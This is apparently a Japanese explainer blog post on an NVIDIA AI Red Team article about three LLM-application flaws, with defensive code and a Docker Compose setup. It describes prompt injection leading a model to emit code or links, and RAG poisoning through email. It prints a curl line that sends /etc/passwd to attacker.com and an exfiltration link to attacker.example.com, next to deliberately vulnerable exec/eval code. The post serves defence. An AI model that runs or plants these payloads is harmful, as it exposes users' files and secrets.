

# NVIDIA AI Red Team解説: LLMアプリケーション3大脆弱性と実践的防御策

本記事は [Practical LLM Security Advice from the NVIDIA AI Red Team](https://developer.nvidia.com/blog/practical-llm-security-advice-from-the-nvidia-ai-red-team/) の解説記事です。

## ブログ概要

NVIDIAのAI Red Teamが数十のAIアプリケーションを実際に評価する中で特定した、LLMアプリケーションに共通する **3つの重大な脆弱性カテゴリ** を解説したブログ記事である。著者らは、(1) LLM生成コードの無防備な実行によるリモートコード実行（RCE）、(2) RAGシステムにおけるアクセス制御の不備、(3) LLM出力に含まれるアクティブコンテンツによるデータ窃取、の3点を具体的な攻撃手法と防御策とともに提示している。オンプレミスでLLM推論基盤を構築・運用する場合に、セキュリティ設計として組み込むべき実践的な知見がまとめられている。

---

## 情報源

| 項目 | 内容 |
|------|------|
| **タイトル** | Practical LLM Security Advice from the NVIDIA AI Red Team |
| **公開元** | NVIDIA Developer Blog |
| **著者** | Rich Harang, Joseph Lucas, John Irwin, Becca Lynch, Leon Derczynski, Erick Galinkin, Daniel Teixeira, Kai Greshake |
| **公開日** | 2025年10月2日 |
| **URL** | [developer.nvidia.com](https://developer.nvidia.com/blog/practical-llm-security-advice-from-the-nvidia-ai-red-team/) |

NVIDIAのAI Red Teamは、社内外のAIシステムに対するセキュリティ評価を専門とするチームである。著者の一人であるKai Greshakeは間接プロンプトインジェクションの初期研究で知られ、Leon Derczynskiは自然言語処理とAI安全性の分野で認知されている。本ブログは、チームが実際の評価業務で繰り返し遭遇した脆弱性パターンを集約したものであり、実践的な経験に基づいている点が特徴的である。

---

## 技術的背景

### オンプレLLM推論基盤とセキュリティの関係

Ollama + Docker ComposeによるオンプレLLM推論基盤は、クラウドAPIと比較してインフラの制御権を持つ反面、セキュリティ設計もすべて自前で行う必要がある。クラウドLLMサービスでは、プロバイダ側でガードレールや出力フィルタリングが組み込まれているケースが多いが、OllamaやvLLMをセルフホストする場合、これらの防御層は開発者自身が実装しなければならない。

著者らはブログの中で、LLMアプリケーションの脆弱性が「モデルそのもの」ではなく「モデルを取り巻くアプリケーション層」に集中していると指摘している。つまり、推論エンジンの選定やGPUの最適化だけでなく、LLMの出力をどのように処理・表示・実行するかというアプリケーション設計が、セキュリティ上の最重要課題となる。この視点は、Docker Composeでインフラを構築した後の「次のステップ」として、運用者が必ず検討すべき内容である。

---

## 実装アーキテクチャ: 3大脆弱性の詳細分析

### 脆弱性1: LLM生成コードの実行（exec/eval問題）

#### 攻撃の概要

著者らは、LLMの出力に対して `exec()` や `eval()` を使用するパターンが、数十のアプリケーション評価において最も頻繁に検出された脆弱性であると報告している。このパターンでは、攻撃者がプロンプトインジェクションを通じてLLMに悪意のあるコードを生成させ、アプリケーションがそのコードをそのまま実行することで、リモートコード実行（RCE）が成立する。

#### 攻撃チェーン: 多層難読化による防御回避

ブログでは、攻撃が単純なプロンプトインジェクションでは終わらないことが強調されている。攻撃者は以下のような多層構造で防御を回避する。



著者らが指摘する重要なポイントは、ガードレール（入力フィルタリング）だけでは防御が不十分であるという点である。攻撃者は悪意のあるペイロードを複数のレイヤで難読化し、フィルタの検知をすり抜ける。

#### 脆弱なコードの例

```python
# 危険: LLMの出力を直接実行するパターン
def process_llm_response(llm_output: str) -> str:
    """LLMが生成したコードを実行して結果を返す"""
    result = {}
    exec(llm_output, {"__builtins__": {}}, result)  # RCEリスク
    return result.get("answer", "")

# 危険: eval()でLLM出力を評価するパターン
def evaluate_expression(llm_output: str) -> float:
    """LLMが生成した数式を評価する"""
    return eval(llm_output)  # 任意コード実行の可能性
```

上記のコードは一見無害に見えるが、LLMが攻撃者の指示に従って `__import__('os').system('curl attacker.com/exfil?data=$(cat /etc/passwd)')` のような文字列を生成した場合、システムが完全に侵害される。`__builtins__` を空辞書で上書きしても、Pythonのイントロスペクション機能を利用した回避手法が存在するため、根本的な解決にはならない。

#### 安全な実装パターン

著者らは、以下の3段階の防御戦略を推奨している。

```python
from typing import Any, Callable
from enum import Enum


class SafeOperation(Enum):
    """LLMが選択可能な安全な操作の定義"""
    SUMMARIZE = "summarize"
    CALCULATE = "calculate"
    SEARCH = "search"
    FORMAT = "format"


# 推奨パターン1: 事前定義された安全な関数セットへのマッピング
SAFE_FUNCTIONS: dict[str, Callable[..., Any]] = {
    "summarize": lambda text: text[:500] + "...",
    "calculate": lambda expr: _safe_math_eval(expr),
    "search": lambda query: _search_index(query),
    "format": lambda data, fmt: _format_output(data, fmt),
}


def process_llm_intent(llm_output: dict[str, Any]) -> Any:
    """LLM出力をインテント解析し、安全な関数にマッピングする"""
    intent = llm_output.get("intent", "")
    params = llm_output.get("params", {})

    if intent not in SAFE_FUNCTIONS:
        raise ValueError(f"Unknown intent: {intent}")

    return SAFE_FUNCTIONS[intent](**params)


def _safe_math_eval(expr: str) -> float:
    """数式のみを許可する安全な評価関数"""
    import ast
    # 数値・演算子ノードのみ許可
    tree = ast.parse(expr, mode="eval")
    for node in ast.walk(tree):
        if not isinstance(node, (
            ast.Expression, ast.BinOp, ast.UnaryOp,
            ast.Constant, ast.Add, ast.Sub, ast.Mult,
            ast.Div, ast.Pow, ast.USub,
        )):
            raise ValueError(f"Unsafe node type: {type(node).__name__}")
    return eval(compile(tree, "<expr>", "eval"))
```

どうしても動的コード実行が必要な場合は、wasmtimeやWasmerなどのWebAssemblyランタイムを利用したサンドボックス内で、ファイルシステムアクセス・ネットワークアクセスを禁止し、実行時間とメモリに制限をかけた上で実行する（推奨パターン2）。

### 脆弱性2: RAGアクセス制御の不備

#### 問題の構造

著者らは、RAG（Retrieval-Augmented Generation）システムにおいて、元データソースのアクセス権限がベクトルデータベースに正しく複製されていないケースが広く存在すると指摘している。この問題は以下の4つの側面を持つ。

**権限の非複製**: 社内文書管理システム（SharePoint、Google Drive等）では、ドキュメントごとに閲覧権限が設定されている。しかし、これらをRAGパイプラインに取り込む際、権限情報が欠落し、本来アクセス権のないユーザーがLLMを通じて機密情報を取得できてしまう。

**過剰な読み取り権限**: RAGインジェスションパイプラインに付与されるAPIトークンが過剰な権限を持つケースがある。例えば、組織全体のメールボックスへの読み取りアクセスが付与されているとき、外部からの悪意あるメールの内容もRAGデータベースに取り込まれてしまう。

**権限伝搬の遅延**: ソースシステムでドキュメントの権限が変更されても、RAGデータベースへの反映が遅れる。この期間中、権限が剥奪されたユーザーが引き続き情報にアクセスできる。

**書き込みアクセスの悪用**: 広い書き込みアクセスが許可されている場合、攻撃者はRAGデータベースに悪意のあるドキュメントを注入し、間接プロンプトインジェクションを仕掛けることができる。

#### 防御策

```python
from dataclasses import dataclass, field
from enum import Enum


class AccessLevel(Enum):
    """RAGドキュメントのアクセスレベル"""
    PERSONAL = "personal"        # 個人のドキュメントのみ
    ORGANIZATION = "organization"  # 組織内ドキュメント
    ALL = "all"                  # 外部ソースを含む全ドキュメント


@dataclass
class RAGQuery:
    """アクセス制御付きRAGクエリ"""
    query: str
    user_id: str
    access_level: AccessLevel = AccessLevel.PERSONAL
    allowed_sources: list[str] = field(default_factory=list)


def retrieve_with_access_control(
    rag_query: RAGQuery,
    vector_store: "VectorStore",
) -> list[dict]:
    """アクセス制御を適用したRAG検索"""

    # 1. ユーザーの権限に基づくフィルタリング
    metadata_filter = {
        "user_id": rag_query.user_id,
        "access_level": rag_query.access_level.value,
    }

    # 2. 外部メールソースの除外（推奨）
    if rag_query.access_level != AccessLevel.ALL:
        metadata_filter["source_type__nin"] = ["external_email", "public_web"]

    # 3. 許可されたソースのみに制限
    if rag_query.allowed_sources:
        metadata_filter["source__in"] = rag_query.allowed_sources

    results = vector_store.similarity_search(
        query=rag_query.query,
        filter=metadata_filter,
        k=5,
    )

    # 4. 取得結果に対するガードレール適用
    sanitized = apply_retrieval_guardrails(results)
    return sanitized


def apply_retrieval_guardrails(documents: list[dict]) -> list[dict]:
    """取得されたドキュメントに対するガードレール"""
    return [
        {**doc, "flagged": True, "content": "[FILTERED]"}
        if _contains_injection_pattern(doc.get("content", ""))
        else doc
        for doc in documents
    ]
```

著者らは特に、**外部メールの除外**を強く推奨している。組織外からのメールは、攻撃者が間接プロンプトインジェクションのペイロードを正確にターゲティングできる、極めて低コストな攻撃経路であると述べている。さらに、HRポリシーや法的文書などの機密性の高いドメインでは、**厳密に管理された権威的データセット**を使用し、一般的なRAGパイプラインとは分離すべきであると提言している。

### 脆弱性3: アクティブコンテンツのレンダリング

#### 攻撃メカニズム

著者らは、LLMの出力に含まれるMarkdownやHTMLが、データ窃取の経路として悪用されるリスクを指摘している。この攻撃は2023年中頃にJohann Rehbergerによって初めて報告されたもので、LLMが生成するMarkdown画像タグやハイパーリンクのURL内にセンシティブな情報をエンコードして外部に送信する手法である。

```html
<!-- 攻撃例1: 画像タグによるデータ窃取 -->
<!-- LLMが以下のMarkdownを出力に含める -->


<!-- ブラウザがこの画像を読み込む際、Base64エンコードされた
     機密データが攻撃者のサーバに送信される -->
```

```html
<!-- 攻撃例2: ハイパーリンクによるデータ窃取 -->
<a href="https://attacker.example.com/exfil?secret=Tm93IHlvdSdy
ZSBqdXN0IHNob3dpbmcgb2ZmIDsp">click here for more details</a>

<!-- ユーザーがリンクをクリックすると、クエリパラメータ内の
     機密情報が攻撃者に送信される -->
```

この攻撃が成立するには、(1) LLMがプロンプトインジェクションにより悪意のあるMarkdown/HTMLを出力すること、(2) アプリケーションがその出力をサニタイズせずにレンダリングすること、の2つの条件が必要である。

#### 防御の実装

```python
import re
from urllib.parse import urlparse


# 許可するドメインのホワイトリスト
ALLOWED_IMAGE_DOMAINS: set[str] = {
    "cdn.example.com",
    "images.example.com",
    "avatars.githubusercontent.com",
}

ALLOWED_LINK_DOMAINS: set[str] = {
    "example.com",
    "docs.example.com",
    "github.com",
}


def sanitize_llm_output(output: str) -> str:
    """LLM出力からアクティブコンテンツを除去またはサニタイズする"""

    # 1. Markdown画像タグの検査・除去
    output = _sanitize_markdown_images(output)

    # 2. HTMLタグの除去
    output = _strip_html_tags(output)

    # 3. Markdownリンクの検査
    output = _sanitize_markdown_links(output)

    return output


def _sanitize_markdown_images(text: str) -> str:
    """Markdown画像タグを検査し、許可されたドメインのみ残す"""
    pattern = r"!\[([^\]]*)\]\(([^)]+)\)"

    def replace_image(match: re.Match) -> str:
        alt_text = match.group(1)
        url = match.group(2)
        parsed = urlparse(url)
        if parsed.hostname in ALLOWED_IMAGE_DOMAINS:
            return match.group(0)  # 許可されたドメインはそのまま
        return f"[Image removed: {alt_text}]"  # 未許可ドメインは除去

    return re.sub(pattern, replace_image, text)


def _sanitize_markdown_links(text: str) -> str:
    """Markdownリンクを検査し、URLを表示する"""
    pattern = r"\[([^\]]+)\]\(([^)]+)\)"

    def replace_link(match: re.Match) -> str:
        link_text = match.group(1)
        url = match.group(2)
        parsed = urlparse(url)
        if parsed.hostname in ALLOWED_LINK_DOMAINS:
            return match.group(0)
        # 外部リンクはURLを明示表示
        return f"{link_text} ({url})"

    return re.sub(pattern, replace_link, text)


def _strip_html_tags(text: str) -> str:
    """HTMLタグを除去する"""
    return re.sub(r"<[^>]+>", "", text)
```

加えて、Content Security Policy (CSP) による防御も推奨されている。

```
Content-Security-Policy: img-src 'self' cdn.example.com; default-src 'self'
```

このヘッダにより、ブラウザは許可されたドメイン以外からの画像読み込みをブロックし、たとえLLMが悪意のある画像タグを出力しても、データ窃取リクエストは送信されない。

---

## Production Deployment Guide: LLM推論基盤のセキュリティ設計

### Docker Compose環境のセキュリティ強化

Ollama + Docker Composeでオンプレ推論基盤を構築する際に、本ブログの知見を組み込んだセキュリティ設計を以下に示す。

#### ネットワーク分離アーキテクチャ

```yaml
# docker-compose.security.yml
version: "3.8"

services:
  ollama:
    image: ollama/ollama:latest
    deploy:
      resources:
        limits:
          memory: 32G
        reservations:
          devices:
            - driver: nvidia
              count: all
              capabilities: [gpu]
    networks:
      - inference_internal  # 推論エンジンは内部ネットワークのみ
    # ポートを公開しない（プロキシ経由のみ）

  api-gateway:
    build: ./gateway
    ports:
      - "8080:8080"
    networks:
      - inference_internal
      - frontend
    environment:
      - CSP_IMG_SRC=self cdn.example.com
      - CSP_DEFAULT_SRC=self
      - ALLOWED_ORIGINS=https://app.example.com
    depends_on:
      - ollama
      - output-sanitizer

  output-sanitizer:
    build: ./sanitizer
    networks:
      - inference_internal
    environment:
      - ALLOWED_IMAGE_DOMAINS=cdn.example.com
      - STRIP_HTML=true
      - STRIP_EXTERNAL_LINKS=true

  rag-service:
    build: ./rag
    networks:
      - inference_internal
      - data_internal
    environment:
      - EXCLUDE_EXTERNAL_EMAIL=true
      - ACCESS_CONTROL_ENABLED=true

  vector-db:
    image: qdrant/qdrant:latest
    networks:
      - data_internal  # データ層は独立したネットワーク
    volumes:
      - vector_data:/qdrant/storage

networks:
  inference_internal:
    internal: true  # 外部アクセス不可
  data_internal:
    internal: true
  frontend:

volumes:
  vector_data:
```

この構成のポイントは以下の通りである。

1. **推論エンジンの隔離**: Ollamaコンテナは `internal` ネットワークにのみ接続し、外部から直接アクセスできない。APIゲートウェイ経由でのみ通信する
2. **出力サニタイザの分離**: LLM出力のサニタイズ処理を独立したコンテナとして実装し、責務を分離する
3. **データ層の分離**: ベクトルDBは推論ネットワークとは別の内部ネットワークに配置し、RAGサービスのみがアクセスできる

#### API Gateway でのセキュリティヘッダ設定

API Gatewayのミドルウェアで、全レスポンスにCSPヘッダ（`img-src 'self' cdn.example.com; default-src 'self'; frame-ancestors 'none'`）と、`X-Content-Type-Options: nosniff`、`X-Frame-Options: DENY` を付与する。これにより、アクティブコンテンツレンダリングによるデータ窃取をネットワーク層で防御する。

#### exec/eval の検出と防止

CI/CDパイプラインにおいて、`ast` モジュールを用いたセキュリティスキャンを組み込むことも有効である。Pythonの `ast.walk()` でソースコードのAST（抽象構文木）を走査し、`exec`、`eval`、`compile` の呼び出し箇所を自動検出してCRITICAL判定を出す仕組みを構築できる。これにより、LLM出力を受け取るコードパスに危険な関数が紛れ込むことを防止できる。

### 多層防御の全体像

著者らが提示する3つの脆弱性に対する防御を統合した多層防御の構成を以下にまとめる。

| レイヤ | 対策 | 対応する脆弱性 |
|--------|------|---------------|
| **入力層** | プロンプトガードレール（NeMo Guardrails等） | コード実行、RAG |
| **実行層** | exec/eval禁止、インテントマッピング、WebAssemblyサンドボックス | コード実行 |
| **データ層** | ユーザー別アクセス制御、外部メール除外、権限同期 | RAGアクセス制御 |
| **出力層** | Markdown/HTMLサニタイズ、ドメインホワイトリスト | アクティブコンテンツ |
| **ネットワーク層** | CSP、ネットワーク分離、API Gateway | アクティブコンテンツ |
| **CI/CD層** | セキュリティスキャン、garakによる脆弱性テスト | 全脆弱性 |

---

## パフォーマンス最適化: セキュリティオーバーヘッドの管理

セキュリティ対策の導入は推論パイプラインにオーバーヘッドを追加するため、その影響を理解し管理することが重要である。

**出力サニタイズの影響**: Markdown/HTMLのサニタイズ処理は文字列操作が主であり、推論のレイテンシ（数百ミリ秒〜数秒）と比較して無視できるレベルである。正規表現ベースのサニタイズは通常1ミリ秒未満で完了する。

**RAGアクセス制御の影響**: ベクトル検索にメタデータフィルタリングを追加した場合、フィルタリングなしの場合と比較して検索時間が増加する。ただし、QdrantやPineconeなどの主要なベクトルDBはメタデータフィルタリングをネイティブにサポートしており、適切なインデックス設計を行えばオーバーヘッドは限定的である。

**WebAssemblyサンドボックスの影響**: ネイティブ実行と比較してサンドボックス実行にはオーバーヘッドが存在するが、LLMの推論時間と比較すれば相対的に小さい。セキュリティと引き換えに許容可能な範囲であると考えられる。

---

## 運用での学び

著者らがブログ全体を通じて繰り返し強調しているのは、以下の運用上の原則である。

**「サニタイゼーションでは防げない」という認識**: 入力フィルタリングや出力フィルタリングだけでは、巧妙な攻撃者に対して十分な防御にならない。構造的な防御（exec/evalの排除、ネットワーク分離、CSP）が必要である。

**「最小権限の原則」の徹底**: RAGパイプラインのAPIトークン、コンテナのケーパビリティ、ネットワークアクセスなど、あらゆるレベルで最小限の権限のみを付与する。

**「防御は多層で」**: 単一の防御機構に依存せず、入力・処理・出力・ネットワークの各レベルで独立した防御を実装する。著者らは1つの防御が破られても他の防御が機能する設計を推奨している。

**脆弱性スキャンの自動化**: NVIDIAが公開しているgarakなどのLLM脆弱性スキャナをCI/CDパイプラインに組み込み、デプロイ前に自動的に脆弱性を検出する仕組みを構築すべきであると述べている。

---

## 学術研究との関連

本ブログで取り上げられている脆弱性は、学術研究においても活発に議論されている。間接プロンプトインジェクション攻撃は、Greshakeら（2023）の論文 "Not What You've Signed Up For: Compromising Real-World LLM-Integrated Applications with Indirect Prompt Injection" で体系的に整理されたものである。RAGシステムのセキュリティ課題はOWASP LLM Top 10でも主要な脅威として分類されている。アクティブコンテンツレンダリングによるデータ窃取は、Johann Rehbergerが2023年中頃に実証し、複数のLLMプロバイダにおいて修正が行われた経緯がある。本ブログは、これらの学術的知見を実運用の文脈で検証し、実践的な防御策にまで落とし込んだものとして位置づけられる。

---

## まとめと実践への示唆

NVIDIAのAI Red Teamが数十のAIアプリケーション評価で得た知見は、オンプレLLM推論基盤の運用者にとって直接的に有用である。exec/evalの排除、RAGアクセス制御の実装、LLM出力のサニタイズという3つの防御策は、いずれも既存のインフラに段階的に導入可能であり、Docker Compose環境のネットワーク分離やCSP設定と組み合わせることで、多層防御を実現できる。LLMのセキュリティは「推論エンジン」ではなく「アプリケーション層」にあるという著者らの指摘は、インフラ構築後のセキュリティ設計の出発点として重要である。

---

## 参考文献

1. Rich Harang, Joseph Lucas, John Irwin, Becca Lynch, Leon Derczynski, Erick Galinkin, Daniel Teixeira, Kai Greshake. "Practical LLM Security Advice from the NVIDIA AI Red Team." NVIDIA Developer Blog, 2025年10月. [https://developer.nvidia.com/blog/practical-llm-security-advice-from-the-nvidia-ai-red-team/](https://developer.nvidia.com/blog/practical-llm-security-advice-from-the-nvidia-ai-red-team/)

2. Kai Greshake et al. "Not What You've Signed Up For: Compromising Real-World LLM-Integrated Applications with Indirect Prompt Injection." arXiv:2302.12173, 2023.

3. OWASP. "OWASP Top 10 for LLM Applications." [https://owasp.org/www-project-top-10-for-large-language-model-applications/](https://owasp.org/www-project-top-10-for-large-language-model-applications/)

4. NVIDIA. "garak: LLM Vulnerability Scanner." [https://github.com/NVIDIA/garak](https://github.com/NVIDIA/garak)

5. NVIDIA. "NeMo Guardrails." [https://github.com/NVIDIA/NeMo-Guardrails](https://github.com/NVIDIA/NeMo-Guardrails)
